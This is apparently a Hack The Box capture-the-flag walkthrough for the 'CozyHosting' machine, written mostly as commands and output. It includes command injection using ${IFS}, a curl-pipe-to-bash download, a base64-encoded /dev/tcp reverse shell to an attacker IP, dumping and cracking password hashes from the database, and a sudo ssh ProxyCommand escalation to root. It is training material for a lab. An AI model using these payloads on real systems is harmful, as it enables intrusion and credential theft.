



# CozyHosting


```bash

❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.230 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 05:53 CET
Initiating SYN Stealth Scan at 05:53
Scanning 10.10.11.230 [65535 ports]
Discovered open port 80/tcp on 10.10.11.230
Discovered open port 22/tcp on 10.10.11.230
Completed SYN Stealth Scan at 05:54, 12.79s elapsed (65535 total ports)
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.038s latency).
Scanned at 2025-02-05 05:53:52 CET for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65547 (2.623MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.230
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.11.230 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 05:55 CET
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   96.66 ms 10.10.16.1
2   33.37 ms cozyhosting.htb (10.10.11.230)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
```


```bash
❯ catnp /etc/hosts | grep 10.10.11.230
10.10.11.230 cozyhosting.htb
```


<figure><figcaption></figcaption></figure>


```bash
❯ dirsearch -u 'http://cozyhosting.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/CozyHosting/CozyHosting/reports/http_cozyhosting.htb/_25-02-05_06-20-38.txt

Target: http://cozyhosting.htb/

[06:20:38] Starting: 
[06:20:48] 200 -    0B  - /;/login
[06:20:48] 200 -    0B  - /;/json
[06:20:48] 200 -    0B  - /;admin/
[06:20:48] 200 -    0B  - /;/admin
[06:20:48] 200 -    0B  - /;json/
[06:20:48] 200 -    0B  - /;login/
[06:20:48] 200 -    0B  - /error/
[06:20:50] 200 -    0B  - /actuator/;/configurationMetadata
[06:20:50] 200 -    0B  - /actuator/;/caches
[06:20:50] 200 -    0B  - /actuator/;/beans
[06:20:50] 200 -    0B  - /actuator/;/auditevents
[06:20:50] 200 -    0B  - /actuator/;/env
[06:20:50] 200 -    0B  - /actuator/;/events
[06:20:50] 200 -    0B  - /actuator/;/conditions
[06:20:50] 200 -    0B  - /actuator/;/dump
[06:20:50] 200 -    0B  - /actuator/;/configprops
[06:20:50] 200 -    0B  - /actuator/;/features
[06:20:50] 200 -  634B  - /actuator
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ curl -s -X GET 'http://cozyhosting.htb/actuator' | jq
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```


```bash
❯ curl -s -X GET 'http://cozyhosting.htb/actuator/sessions' | jq
{
  "8164A98A711A5C909D57A3CCD56E9DD4": "kanderson",
  "F66F09A514BD93AF4092B8E1686ECD0D": "UNAUTHORIZED"
}
```


```bash
❯ gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,503
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
ssh -i [key] gzzcoo;wget${IFS}-c${IFS}1${IFS}10.10.14.6@localhost
```


```bash
gzzcoo;wget${IFS}10.10.16.2/test
```

<figure><figcaption></figcaption></figure>

```bash
gzzcoo;curl${IFS}http://10.10.16.2/rev.sh${IFS}|bash;#
```

<figure><figcaption></figcaption></figure>


```bash
❯ catnp shell
bash -i >& /dev/tcp/10.10.16.2/443 0>&1
❯ catnp shell | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxCg==
❯ nvim shell
❯ catnp shell | base64
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxICAK
```


```bash
gzzcoo;{echo,-n,YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxICAK}|{base64,-d}|bash;#
```

<figure><figcaption></figcaption></figure>


```bash
app@cozyhosting:/app$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
app@cozyhosting:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)
```


```bash
❯ nc -nlvp 443 > cloudhosting-0.0.1.jar
listening on [any] 443 ...
```





<figure><figcaption></figcaption></figure>


```bash
app@cozyhosting:/$ netstat -ano | grep LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      off (0.00/0/0)
app@cozyhosting:/$ which psql
/usr/bin/psql
```


```sql
app@cozyhosting:/$ psql -h localhost -p 5432 -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \list
                                                                      List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# \connect cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# SELECT * FROM users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```


```bash
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

...[snip]...

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```


```bash
app@cozyhosting:/$ su josh
Password: 
josh@cozyhosting:/$ cd /home/josh
josh@cozyhosting:~$ cat user.txt 
ef4f1dc1330fae598f4a90bbaa63e009
```


```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```




```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
2dfc37e48378fb2e3831028263407f2c
```
